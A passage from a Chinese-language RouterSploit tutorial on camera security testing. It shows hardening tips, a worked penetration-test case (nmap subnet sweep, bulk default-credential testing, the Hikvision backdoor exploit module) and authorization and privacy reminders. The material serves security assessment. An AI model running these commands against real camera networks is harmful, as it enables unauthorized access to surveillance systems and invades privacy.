 ```markdown
   - 禁用未使用的服务端口

2. **长期加固**
   - 建立固件更新流程
   - 网络分段隔离摄像头
```

---

## 十一、实际渗透测试案例

### 案例：企业监控系统安全评估

```bash
# 1. 发现摄像头网络段
nmap -sP 192.168.100.0/24

# 2. 识别摄像头设备
rsf > use scanners/camera_scanner
rsf (Camera Scanner) > set target 192.168.100.0/24
rsf (Camera Scanner) > run

# 3. 批量测试默认凭证
rsf > use creds/cameras/http_basic_default
rsf (HTTP Basic Default) > set target 192.168.100.0/24
rsf (HTTP Basic Default) > run

# 4. 对存在漏洞的设备深度利用
rsf > use exploits/cameras/hikvision/hikvision_backdoor
rsf (Hikvision Backdoor) > set target 192.168.100.50
rsf (Hikvision Backdoor) > run
```

---

## 总结

RouterSploit 在摄像头安全评估中提供了：

1. **专业化的检测能力** - 针对摄像头特有漏洞的专用模块
2. **批量评估效率** - 快速扫描整个摄像头网络
3. **深入的利用链** - 从信息收集到完全控制的全套工具
4. **证据收集功能** - 为安全报告提供详细证据

**重要提醒**：
- 摄像头涉及个人隐私，测试必须获得明确授权
- 企业监控系统的测试需要特别谨慎
- 测试可能影响监控系统的正常运行
- 始终在隔离的测试环境中进行技术验证

通过系统化地使用 RouterSploit 评估摄像头安全，可以显著提升物联网环境的安全防护水平，防止监控系统成为攻击入口。

